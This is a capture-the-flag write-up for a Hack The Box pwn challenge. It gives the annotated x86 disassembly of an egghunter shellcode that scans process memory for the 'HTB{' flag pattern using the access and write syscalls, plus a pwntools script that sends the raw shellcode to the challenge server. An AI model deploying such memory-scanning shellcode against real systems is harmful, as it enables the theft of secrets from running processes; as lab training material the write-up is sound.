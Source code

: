- the program is allocating memory for the flag to store it and after corrupt it, so the only solution to this challenge is to scan process memory for 'HTB{' pattern.
- we will face one problem which is if the memory we want to read is accessible or not. we'll use `access` SYSCALL to check that.
![pwn_hunting-copy and corrupt the flag](https://github.com/0xPrimo/CTFs/assets/93877982/21d1ef7b-40e3-43d8-b35b-935c6edbe0d6)
- we'll use `egghunter` shellcode to find the pattern (egg) and print it using `write` SYSCALL.
```
	31 C0               	xor     eax, eax
	89 C7               	mov     edi, eax
	BF 48 54 42 7B          mov     edi, 7B425448h
	
	            		next_page:                           
	
	66 81 CA FF 0F          or      dx, 0FFFh
	
	                    next_address:
	
	42                      inc     edx
	60                      pusha
	31 C9                   xor     ecx, ecx        ; mode
	8D 5A 04                lea     ebx, [edx+4]    ; pathname
	B0 21                   mov     al, 21h ; '!'
	CD 80                   int     80h             ; LINUX 	sys_access
	3C F2                   cmp     al, 0F2h
	61                      popa
	74 EB                   jz      short next_page
	39 3A                   cmp     [edx], edi
	75 EC                   jnz     short next_address


	89 D1                   mov     ecx, edx        ; addr
	31 C0                   xor     eax, eax
	89 C3                   mov     ebx, eax
	89 DA                   mov     edx, ebx

						print_flag:
 	B0 04                   mov     al, 4
 	B3 01                   mov     bl, 1           ; fd
	B2 01                   mov     dl, 1
	CD 80                   int     80h             ; LINUX - sys_write
	41                      inc     ecx
	38 31                   cmp     [ecx], dh
	75 F3                   jnz     short print_flag
	C3                      retn
```
- python script

```
from pwn import *

shellcode = b'\x31\xc0\x89\xc7\xbf\x48\x54\x42\x7b\x66\x81\xca\xff\x0f\x42\x60\x31\xc9\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xeb\x39\x3a\x75\xec\x89\xd1\x31\xc0\x89\xc3\x89\xda\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x41\x38\x31\x75\xf3\xc3'


context.update(arch="i386", os="linux")


r = remote("<ip>", <port>)

r.send(shellcode)

flag = r.recv()
log.success(str(flag))
r.close()
```
